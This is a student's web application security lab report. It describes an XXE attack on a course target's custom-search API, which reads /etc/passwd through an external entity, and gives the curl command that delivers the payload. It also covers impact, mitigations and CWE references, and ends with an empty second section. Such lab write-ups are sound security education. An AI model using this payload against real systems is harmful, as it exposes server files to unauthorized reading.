



# Web Application Security

**Student number:** AB0197  
**Name:** Veeti Hakala    
**Group:** TIC21S  
**Time management:** Approximately 10 hours


## Week 05  

### Security Misconfigurations:

#### Old wasdat - XML External Entity

**Title:** Perform XXE attack successfully using old wasdat's custom-search functionality in old Wasdat and achieve `flag` Target is custom-search functionality: `http://wasdat.fi:8080/api/custom-search`.

**Description:**  

**Steps to produce:**  

1. We had be given `oldwasdat.example.xml` file beforehand. Content of the xml file was following:
    ```xml 
    <search>searchterm</search>
    ```  

2. I created similiar file with name: `malicious.xml`.  
    2. Let's try to use `Curl` with `POST` method and use this `malicious.xml` file in the command.
    ```sh
    curl -X POST http://wasdat.fi:8080/api/articles/custom-search -H "Content-Type: text/xml" --data "@malicious.xml"
    ```

3. As response we get the following: 

    3.   

        3. This provides us valuable information: As we can see that we got succes response and also that we have indeed developer defined `Element="search"`.

4. Next step is to modify the `malicious.xml` payload to get something more interesting response.   

    * XML Declaration: ```<?xml version="1.0" encoding="UTF-8"?>```  specifying that this is an XML document with version "1.0" and it uses UTF-8 character encoding.
    
    * DOCTYPE Declaration: ```<!DOCTYPE search [``` The DOCTYPE defines the structure of the XML document, allowing the XML parser to validate the XML against this structure. Inside the square brackets ([...]) are the internal subset of the DOCTYPE, which can be used to define custom entities.  
    
    * ELEMENT Declaration: ```<!ELEMENT search ANY >``` defines an XML element named search. The ANY keyword means that the search element can contain any content, including text or other XML elements.  

    * ENTITY Declaration: ```<!ENTITY xxe SYSTEM "file:///etc/passwd" >```  Defines an XML entity named `xxe`. The `SYSTEM` keyword tells the XML parser that the value for this entity should be fetched from an external system location, in this case, the Unix `/etc/passwd` file. When the XML parser encounters the ```&xxe;``` entity, it will try to read the contents of the /etc/passwd file and include it in the parsed XML data.

    * XML Content: ```<search>&xxe;</search>``` contains a single search element. Inside the search element, the `&xxe;` entity is referenced. When the XML parser processes this document, it will replace the `&xxe;` entity with the content of the `/etc/passwd` file.

    

5. Now when the XML file payload is crafted we can continue executing the actual XXE attack: 

     ```sh
    curl -X POST http://wasdat.fi:8080/api/articles/custom-search -H "Content-Type: text/xml" --data "@malicious.xml"
    ```

6. Success, we received the contents of the `/etc/passwd` and achieved the flag: `WasFlag5_1{NicelyDone_NowGoAndLaunchRockets}`.

  

* Impact estimation:  **Critical**  

    * Information Disclosure: The exploit allows unauthorized reading of system files, potentially exposing sensitive system information or user data.  

    * Denial of Service: XXE can be used to induce a denial of service by tying up server resources when trying to fetch non-existent or recursive entities.  

    * Potential for Further Exploits: The disclosed information could provide an attacker with details necessary for further attacks on the system.  

    * Data Integrity: Although not demonstrated, XXE can be exploited in some scenarios to write to system files or make server-side requests.

    
    

* Mitigation:  

    * Disable External Entities: Configure the XML parser to prohibit the resolution of external entities.
        * See: https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html

    * Use Less Complex Data Formats: Consider using data formats that are less complex than XML, such as JSON, when possible.  

    
    * Implement Web Application Firewalls (WAFs): A WAF can help filter out malicious XML content.  

    
    * Update and Patch: Ensure that all software components, libraries, and dependencies related to XML parsing are regularly updated and patched.  

    * Limit Parser Privileges: If XML parsing is necessary, run the parser with the least privilege possible to reduce the potential impact of a successful attack.  

    * Input Validation: Implement positive ("whitelisting") server-side input validation, filtering, or sanitization to prevent hostile data within XML documents, headers, or nodes.
    

* Related OWASP CWE:  

    * CWE-611: Improper Restriction of XML External Entity Reference ('XXE'): This is the primary weakness that describes the vulnerability exploited in the XXE attack.  

    * CWE-827: Improper Control of Document Type Definition: This is related to misconfigurations that can lead to XXE attacks.

    * CWE-776: Improper Restriction of Recursive Entity References in DTDs ('XML Bomb'): This can cause a Denial of Service (DoS) when exploited.

---

#### Main target - Coupon codes stored in plain text

**Title:** 

**Description:** 

**Steps to produce:**  

* Impact estimation: **Estimate Severity**  

* Mitigation:


* Related OWASP CWE:
---


